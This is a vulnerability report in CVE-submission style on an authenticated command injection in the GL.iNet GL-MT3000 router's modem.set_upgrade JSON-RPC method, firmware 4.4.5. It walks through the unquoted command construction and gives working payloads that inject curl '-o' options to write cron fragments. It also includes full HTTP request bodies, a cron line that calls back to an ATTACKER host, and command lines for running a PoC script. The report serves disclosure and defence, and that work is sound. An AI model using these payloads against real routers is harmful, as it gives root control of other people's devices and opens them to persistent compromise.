


# GL.iNet GL-MT3000 `modem.set_upgrade` Authenticated Command Injection to Root RCE

## Vulnerability Summary

- Report date: 2026-04-29
- Reporter: coconut652-7
- CVE ID: TBD
- Vendor: GL.iNet
- Product: GL-MT3000
- Verified firmware: 4.4.5
- Component: `modem.so`
- Reachable endpoint: `/rpc`
- Reachable RPC method: `call(<sid>, "modem", "set_upgrade", args)`
- Authentication: required
- Impact: authenticated remote command execution as `root`
- Root cause class: OS command injection / argument injection
- Candidate CWEs: `CWE-78`, `CWE-88`

## CVE Submission-Style Summary

GL.iNet GL-MT3000 firmware `4.4.5` contains an authenticated remote command execution vulnerability in the JSON-RPC method `modem.set_upgrade`, exposed through `/rpc`. The vulnerable implementation in `modem.so` reads attacker-controlled fields from a JSON-RPC request and builds an OS command using an unquoted format string:

```c
/usr/bin/modem_upgrade_check %s %s %s %s %s %s
```

The second formatted argument is attacker-controlled `modem_url`. Because the value is inserted into the command string without shell quoting, an authenticated attacker can preserve injected `curl` options by escaping spaces and terminating the remaining command with `#`. The spawned helper script later expands the same value unquoted inside a `curl` invocation, turning the attacker input into real `curl` arguments.

On the verified GL-MT3000 `4.4.5` target, this primitive allows an authenticated attacker to write arbitrary content into GL.iNet cron fragment locations such as `/etc/gl_crontabs/crontabs.d/p` or `/tmp/gl_crontabs/crontabs.d/q`. After the attacker triggers `gl_timer` reload through an authenticated RPC call, the cron fragment is merged and executed as `root`, yielding reliable root-level command execution.

## Attack Surface

The issue is reachable through the GL.iNet web management JSON-RPC API:

```http
POST /rpc HTTP/1.1
Host: <router>
Content-Type: application/json
```

Authenticated method calls use the generic form:

```json
{
  "jsonrpc": "2.0",
  "id": 3,
  "method": "call",
  "params": ["<sid>", "modem", "set_upgrade", {"modem_url": "..."}]
}
```

The first item in `params` is the authenticated session identifier, typically the `sid` returned by `login`, or an `Admin-Token` equivalent accepted by the target.

## Authentication Boundary

This issue is not pre-auth. A valid administrator session is required.

For the verified `4.4.5` target, the PoC uses the following login flow:

1. Call `challenge({"username":"root"})`.
2. Obtain `alg`, `salt`, and `nonce`.
3. Compute `crypt(password, "$<alg>$<salt>$")`.
4. Compute `md5(username + ":" + crypted_password + ":" + nonce)`.
5. Call `login({"username": username, "hash": digest})`.
6. Use the returned `sid`, or a valid `Admin-Token`, in subsequent `call` requests.

The vulnerability is still exploitable if the attacker already has a valid `sid` or `Admin-Token` and skips the login steps above.

## Root Cause

### 1. Unquoted command construction in `modem.so`

Reverse engineering of `set_upgrade` in `modem.so` shows that the handler reads the following JSON fields:

- `modem_url`
- `target_version`
- `current_version`
- `firmware_upload`
- `hash_type`
- `hash_value`
- `upgrade_type`

It then builds and executes a command equivalent to:

```c
sprintf(
    cmd_or_port_buf,
    "/usr/bin/modem_upgrade_check %s %s %s %s %s %s",
    firmware_upload,
    modem_url,
    target_version,
    hash_type,
    hash_value,
    upgrade_type
);
fork_exec(cmd_or_port_buf);
```

The key point is that `modem_url` is inserted into the command string without quoting or escaping.

### 2. Unquoted expansion in `/usr/bin/modem_upgrade_check`

The helper script later assigns the second positional argument to `modem_url` and uses it in a `curl` command without quotes:

```sh
firmware_upload="$1"
modem_url="$2"
target_version="$3"
hash_type=$4
hash_value="$5"
upgrade_type="$6"

curl -Ls --connect-timeout 5 $modem_url --max-time 1800 -o /tmp/modem.zip >> /dev/null
```

Because `$modem_url` is expanded unquoted and is not protected by `--`, attacker-controlled whitespace is reinterpreted as argument delimiters. This converts the controlled value into attacker-chosen `curl` options such as `-o <path>`.

### 3. Why escaped spaces are required

A naive payload such as:

```text
http://ATTACKER:8000/stage1 -o /etc/gl_crontabs/crontabs.d/p
```

does not work reliably because the outer shell splits literal spaces before `/usr/bin/modem_upgrade_check` starts. As a result, only the URL remains in `$2`, while the injected `-o` and path shift into later positional arguments.

The verified `4.4.5` payload therefore uses escaped spaces and a trailing comment marker:

```text
http://ATTACKER:8000/stage1\ -o\ /etc/gl_crontabs/crontabs.d/p #
```

This works because:

- `\ ` preserves `URL -o PATH` as one shell argument when the outer command is executed.
- `#` comments out the remaining fixed arguments appended by the generated command string.
- Inside `modem_upgrade_check`, the escaped spaces have already become normal spaces in `$2`.
- The script later expands `$modem_url` unquoted, causing the value to split again into valid `curl` arguments.

## Reverse Engineering Evidence

### `modem.so` function evidence

The `set_upgrade` function exists in `modem.so` and decompiles to logic consistent with the vulnerable flow:

- function name: `set_upgrade`
- function address: `0xa708`
- size: `0x4d4`

The decompiled command construction is:

```c
ptr_sprintf(
  cmd_or_port_buf,
  "/usr/bin/modem_upgrade_check %s %s %s %s %s %s",
  firmware_upload,
  modem_url,
  target_version,
  hash_type,
  hash_value,
  upgrade_type);
ptr_fork_exec(cmd_or_port_buf);
```

This confirms that the attack does not depend on speculative shell behavior elsewhere. The unquoted attacker-controlled `modem_url` is embedded directly into the spawned command string.

### Helper script behavior

The exploitability depends on the helper consuming `modem_url` unsafely in `curl`. The verified helper logic is:

```sh
curl -Ls --connect-timeout 5 $modem_url --max-time 1800 -o /tmp/modem.zip >> /dev/null
```

This provides the second half of the injection chain: outer command construction preserves the crafted input, and the helper converts that preserved input into actual `curl` options.

## Verified Exploitation Chain on GL-MT3000 4.4.5

The PoC kept two working exploitation modes.

### Mode A: persistent GL.iNet cron fragment

- PoC mode: `openwrt445-gl-fragment`
- injected path: `/etc/gl_crontabs/crontabs.d/p`
- verified payload:

```text
http://ATTACKER:8000/stage1\ -o\ /etc/gl_crontabs/crontabs.d/p #
```

Effect:

1. `modem.set_upgrade` launches `/usr/bin/modem_upgrade_check` with attacker-controlled `modem_url`.
2. The helper executes `curl` with attacker-injected `-o /etc/gl_crontabs/crontabs.d/p`.
3. The router writes attacker-served content into a GL.iNet cron fragment path.
4. An authenticated `timer.set_led` call triggers `/etc/init.d/gl_timer restart`.
5. `gl_timer` merges the fragment into the runtime cron configuration.
6. The cron line executes as `root`.

### Mode B: runtime GL.iNet cron fragment

- PoC mode: `openwrt445-tmp-gl-fragment`
- injected path: `/tmp/gl_crontabs/crontabs.d/q`
- verified payload:

```text
http://ATTACKER:8000/stage1\ -o\ /tmp/gl_crontabs/crontabs.d/q #
```

Effect:

1. The injected `curl -o` writes directly into the runtime GL.iNet cron fragment directory.
2. An authenticated `timer.set_led` call restarts `gl_timer`.
3. The fragment is merged into the runtime cron file.
4. The cron callback executes as `root`.

The PoC uses file name `q` in this mode to avoid accidental overwrite interactions with the default persistent fragment name.

## Live Exploitation Evidence

### PoC-generated `modem_url`

For the default persistent mode, the PoC constructs:

```text
http://ATTACKER:8000/stage1\ -o\ /etc/gl_crontabs/crontabs.d/p #
```

### PoC-sent `modem.set_upgrade` arguments

```json
{
  "modem_url": "http://ATTACKER:8000/stage1\\ -o\\ /etc/gl_crontabs/crontabs.d/p #",
  "target_version": "X",
  "current_version": "X",
  "firmware_upload": "router",
  "hash_type": "sha256",
  "hash_value": "deadbeef",
  "upgrade_type": "full_ota"
}
```

Only `modem_url` is security-critical. The other values are used to satisfy expected handler inputs. The checksum is intentionally invalid because the file write side effect occurs during the download step, before later verification rejects the package.

### Attacker-served cron content

The PoC serves `/stage1` as a single cron line:

```cron
* * * * * /usr/bin/curl -fsS http://ATTACKER:8000/cb/RCE_OK_<timestamp> >/dev/null 2>&1
```

This is a callback-only proof of execution. It confirms root command execution without requiring an interactive shell.

### Success condition

Successful exploitation is confirmed when the attacker-controlled HTTP server receives:

```text
/cb/RCE_OK_<timestamp>
```

The PoC treats this callback as proof that the cron line was merged and executed as `root`.

## Why This Is Root RCE

The primitive is not limited to arbitrary file write in a low-privilege directory. The verified exploitation chain writes a cron fragment consumed by GL.iNet's cron management flow. After `timer.set_led` triggers `/etc/init.d/gl_timer restart`, the fragment is merged into the active cron configuration. The resulting cron command executes with system privileges, which on the verified GL-MT3000 `4.4.5` target is `root`.

The callback-based PoC is intentionally minimal, but the attacker controls the full cron command line, so the resulting primitive is equivalent to arbitrary authenticated root command execution.

## Minimal HTTP Request Shape

### 1. Authenticated `modem.set_upgrade` trigger

```http
POST /rpc HTTP/1.1
Host: <router>
Content-Type: application/json

{
  "jsonrpc": "2.0",
  "id": 3,
  "method": "call",
  "params": [
    "<sid>",
    "modem",
    "set_upgrade",
    {
      "modem_url": "http://ATTACKER:8000/stage1\\ -o\\ /etc/gl_crontabs/crontabs.d/p #",
      "target_version": "X",
      "current_version": "X",
      "firmware_upload": "router",
      "hash_type": "sha256",
      "hash_value": "deadbeef",
      "upgrade_type": "full_ota"
    }
  ]
}
```

### 2. Authenticated `gl_timer` reload trigger

```http
POST /rpc HTTP/1.1
Host: <router>
Content-Type: application/json

{
  "jsonrpc": "2.0",
  "id": 4,
  "method": "call",
  "params": [
    "<sid>",
    "timer",
    "set_led",
    {
      "enable": false,
      "turnon_hour": "07",
      "turnon_min": "00",
      "turnoff_hour": "22",
      "turnoff_min": "00",
      "week": [0, 1, 2, 3, 4, 5, 6]
    }
  ]
}
```

The PoC first tries to read current settings through `timer.get_led` and then replays them to avoid modifying user-visible configuration more than necessary. The request above is a minimal shape representative of the verified trigger path.

## Minimal Vulnerable Flow

```text
Authenticated attacker
  -> POST /rpc method=call params=[sid, "modem", "set_upgrade", args]
  -> args.modem_url = "http://ATTACKER/stage1\ -o\ /etc/gl_crontabs/crontabs.d/p #"
  -> modem.so builds "/usr/bin/modem_upgrade_check %s %s %s %s %s %s"
  -> helper receives crafted modem_url as $2
  -> helper executes curl with unquoted $modem_url
  -> attacker content is written to /etc/gl_crontabs/crontabs.d/p
  -> POST /rpc method=call params=[sid, "timer", "set_led", ...]
  -> /etc/init.d/gl_timer restart
  -> cron executes attacker-controlled command as root
  -> attacker observes /cb/RCE_OK_<timestamp>
```

## PoC Command Examples

### Default authenticated reproduction command

```bash
python3 modem_set_upgrade_auth_rce_poc_2026-04-29.py \
  --target 192.168.8.1 \
  --username root \
  --password '<admin-password>' \
  --attacker-host <host-reachable-from-router> \
  --http-port 8000
```


This is the default verified path. It performs the `4.4.5` login flow, triggers `modem.set_upgrade`, then calls `timer.set_led` to reload `gl_timer` and waits for the cron callback.

### Using an existing token

```bash
python3 modem_set_upgrade_auth_rce_poc_2026-04-29.py \
  --target 192.168.8.1 \
  --token '<Admin-Token-or-SID>' \
  --attacker-host <host-reachable-from-router> \
  --http-port 8000
```

Use this form when a valid authenticated `sid` or `Admin-Token` is already available and the login step should be skipped.

### Testing the runtime fragment mode

```bash
python3 modem_set_upgrade_auth_rce_poc_2026-04-29.py \
  --target 192.168.8.1 \
  --username root \
  --password '<admin-password>' \
  --attacker-host <host-reachable-from-router> \
  --payload-mode openwrt445-tmp-gl-fragment
```


This mode targets `/tmp/gl_crontabs/crontabs.d/q` instead of the default persistent fragment path under `/etc/gl_crontabs/`.

## Files Used in This Verification Package

```text
mt3000_modem_so_rce_report_2026-04-29.md
modem_set_upgrade_auth_rce_poc_2026-04-29.py
```
